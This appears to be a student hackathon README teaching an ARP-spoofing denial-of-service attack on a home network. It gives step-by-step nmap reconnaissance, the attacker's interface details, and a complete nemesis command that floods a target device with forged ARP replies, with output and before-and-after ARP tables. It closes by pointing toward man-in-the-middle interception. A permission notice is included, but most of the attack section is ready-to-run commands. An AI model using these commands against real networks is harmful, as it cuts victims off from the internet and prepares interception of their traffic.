

**Submission for 2022 NLMUSD Hackathon**  

# Introduction
Hello! I am Diego Contreras from John Glenn High School. I have been programming since I was in middle school, completely self-taught, and have a great deal in experience working with computers. This year's theme is to **teach something we are passionate about**. Personally, I am passionate about **hacking**. Because of how vast the field is, I'll teach you one small attack: `ARP-Spoofed DoS`. This specific attack allows you to completely block a device on a network from accessing the internet for as long as you'd like.

## Notice
***The following should not be tried on a system you do not own or have permission to mess with. In addition, this hack will not work with all routers and devices; Both can possibly have protections against this, making it useless.***

## Requirements
Before getting to the exciting stuff, you'll need the following to perform the attack:
* Have a Linux-based OS (Debian, Fedora, Arch, Ubuntu, Kali, ect.)
* Have *consented* access to a cheap home router (expensive ones may have protections against this attack)
* Know the basics of packets and protocols.
* Know the basics of the command line.
* Have `nmap` installed via your package manager (`sudo apt install nmap` for Debian-based OS)

## How it works


Normally, your computer sends all of its data to the router, as pictured above. However, using a technique known as ARP Poisoning, you can trick your computer into sending all its data to a hacker's computer. After this, the hacker can do whatever they want with it. The picture above shows it simply passing it along to the router, giving you internet access while the hacker can see everything you are doing.

For the sake of this tutorial, we will only be worrying about the first part: ARP Poisoning. We will NOT do anything with the packets and simply drop them, resulting in the target computer not having internet access.


## Performing the attack
To perform this attack, we will be using [nemesis](https://github.com/libnet/nemesis). This tool is used for many things relating to packet creation and formation, but today we will use it to create and spoof ARP packets.

### Step 1
Install [nemesis](https://github.com/libnet/nemesis) by following the instructions in the [README](https://github.com/libnet/nemesis/blob/master/README.md) or getting it from its [releases](https://github.com/libnet/nemesis/releases/tag/v1.8).

After this, get the private IP addresses of every device on your network via `sudo nmap -sn 192.168.1.1/24`. The output will look something like the following:
```
user@hackerman ~> sudo nmap -sn 192.168.1.1/24
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 192.168.1.1
Host is up (0.0054s latency).
MAC Address: F4:69:42:EC:F6:A8 (Unknown)

Nmap scan report for 192.168.1.51
Host is up (0.22s latency).
MAC Address: D2:D5:F5:52:B9:58 (Microsoft)

Nmap scan report for 192.168.1.75
Host is up (0.21s latency).
MAC Address: 80:60:B7:16:90:9B (Samsung)

Nmap scan report for 192.168.1.80
Host is up (0.093s latency).
MAC Address: 64:D2:C4:A5:37:9A (Unknown)

Nmap scan report for 192.168.1.113
Host is up (0.092s latency).
MAC Address: B8:8A:EC:35:F2:7F (Nintendo)

Nmap scan report for 192.168.1.158
Host is up (0.094s latency).
MAC Address: 64:D2:C4:AA:CE:18 (Unknown)

Nmap scan report for 192.168.1.183
Host is up (0.073s latency).
MAC Address: D0:03:4B:CD:57:17 (Apple)

Nmap scan report for 192.168.1.194
Host is up (0.20s latency).
MAC Address: AC:F6:F7:9F:08:E0 (LG Electronics (Mobile Communications))

Nmap done: 256 IP addresses (7 hosts up) scanned in 9.78 seconds
```

This simply lists the MAC Addresses and IP Addresses of every device on the network, with `192.168.1.1` being the IP address of your router. Choose a device and write down its IP and MAC Address. For the sake of this tutorial, I'll use the Nintendo Switch connected with an IP address of `192.168.1.113`. Write this down in addition to the IP of the router mentioned before.


### Step 2
Run `ifconfig`. 

```
user@hackerman ~> ifconfig

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 78674  bytes 11694275 (11.6 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 78674  bytes 11694275 (11.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlp6s0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.189  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 2600:6c50:727f:7680:7528:55d3:dfc:445a  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::52c6:9c5c:6ea0:b821  prefixlen 64  scopeid 0x20<link>
        inet6 2600:6c50:727f:7680::18ad  prefixlen 128  scopeid 0x0<global>
        inet6 2600:6c50:727f:7680:d2d4:a827:bf0f:f9eb  prefixlen 64  scopeid 0x0<global>
        ether 60:14:B3:B9:DE:BD  txqueuelen 1000  (Ethernet)
        RX packets 5729186  bytes 6927109944 (6.9 GB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3893098  bytes 2774117092 (2.7 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

This command simply lists the network cards attached to your computer. Write down the MAC address of your computer; In this case it is `60:14:B3:B9:DE:BD` for the MAC Address. In addition, write down the name of the network card. In this case it is `wlp6s0`.

By now, you should have the following:

* Nintendo Switch
	* IP : `192.168.1.113`

* My Computer
	* MAC: `60:14:B3:B9:DE:BD`
	* Network Card: `wlp6s0`

* Router
	* IP: `192.168.1.1`


### Step 3
NOTE: This is the step that might not work with all routers. Some may have protections against it, and at most you'll only block access to the router's login page and nothing more. 

Here we will run the actual `nemesis` command:

```
user@hackerman ~> sudo nemesis arp -c 10000 -i 1 -v -r -d wlp6s0 -S 192.168.1.1 -D 192.168.1.113 -h $60:14:B3:B9:DE:BD
ARP/RARP Packet Injection -=- The NEMESIS Project v1.8

               [MAC] 60:14:B3:B9:DE:BD > F4:69:42:EC:F6:A8
     [Ethernet type] ARP (0x0806)

  [Protocol addr:IP] 192.168.1.1 > 192.168.1.113
 [Hardware addr:MAC] 60:14:B3:B9:DE:BD > F4:69:42:EC:F6:A8
     [Ethernet type] ARP (0x0806)
        [ARP opcode] Reply
  [ARP hardware fmt] Ethernet (1)
  [ARP proto format] IP (0x0800)
  [ARP protocol len] 6
  [ARP hardware len] 4

Wrote 42 byte ARP packet through linktype DLT_EN10MB.
```

Essentially, this command crafts an ARP packet that fools the Nintendo Switch into thinking the attacking computer is the router. As the attacking computer won't send that packet to the internet, the device no longer has access to the internet. Because the device re-asks the network "Hey, are you *sure* this is the router?" every few seconds, the command keeps sending packets every second to make sure the device has no internet.

If we instead attacked another linux computer, we can run the `arp` command on the victim device **before** and **after** to show how the MAC address changed to that of the attacking computer, where `192.168.1.189` is the IP of the attacking computer:

**BEFORE**
```
user@hackerman ~> arp 
Address                  HWtype  HWaddress           Flags Mask            Iface
192.168.1.1              ether   F4:69:42:EC:F6:A8   C                     wlp6s0
192.168.1.189            ether   60:14:B3:B9:DE:BD   C                     wlp6s0
```


**AFTER**
```
user@hackerman ~> arp 
Address                  HWtype  HWaddress           Flags Mask            Iface
192.168.1.1              ether   60:14:B3:B9:DE:BD   C                     wlp6s0
192.168.1.189            ether   60:14:B3:B9:DE:BD   C                     wlp6s0
```

As you can see, the MAC value of the router is the same as the attacking computer after this command, meaning that sending anything to the router is essentially the same as sending it to the attacker, who will do nothing with it thus resulting in no internet. 


## Conclusion
By applying basic knowledge of networking and using a simple tool, it is possible to prevent someone to use to internet. While the applications of this specific attack is underwhelming, the reconnaissance and tools used have several other applications other than this in several other attacks. One such attack is part of a major technique in hacking: Man in the Middle Attacks (MITM). These types of attack use almost the same technique (ARP Poisoning) with a few modifications to listen into conversations between devices, giving you the full picture of what is going on between two devices. In conclusion, with the knowledge you have gained, I hope you are ready to take on bigger, better hacks that don't end you up in jail.
